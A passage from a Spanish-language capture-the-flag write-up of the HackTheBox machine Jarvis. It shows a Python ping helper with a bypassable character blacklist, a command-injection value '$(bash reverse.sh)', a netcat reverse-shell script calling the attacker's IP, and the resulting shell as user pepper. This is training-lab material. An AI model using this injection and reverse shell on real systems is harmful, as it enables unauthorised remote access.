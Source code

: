 ```bash
04:47:11.006290 IP 10.10.16.198 > logger.htb: ICMP echo reply, id 1539, seq 2, length 64
```

Vale funciona corractamente, pero y ¿como nos aprovechamos de esto? Pues en bash si podemos poner en el input ``cualquier comando`` al ejecutar el script nos va a ejecutar tambien ese comando, un ejemplo sencillo seria este:

```bash
❯ cat script.sh
#!/bin/bash
echo "hola soy `whoami`"
                                                                                                                                                                                                                                           
❯ ./script.sh
hola soy root
```

En este caso en especial el creador del script ha sido cuidadoso y ha agregado una blacklist con el cual si en el input del usuario existe ['&', ';', '-', '`', '||', '|'] no va a poder ejecutar el ping, pero hay otras formas de ejecutar comandos en bash como por ej $(comando):

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

La forma de burlar esto seria creandonos un script en bash que contenga una reverse shell:

```bash
❯ cat reverse.sh
#!/bin/bash

nc -e /bin/sh 10.10.16.198 443
```

```bash
www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
Enter an IP: $(bash reverse.sh)
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.143] 54402
whoami
pepper
pepper@jarvis:~$ cat user.txt 
2afa36c4f05b37b3425c---------
```

# **ESCALACION DE PRIVILEGIOS**
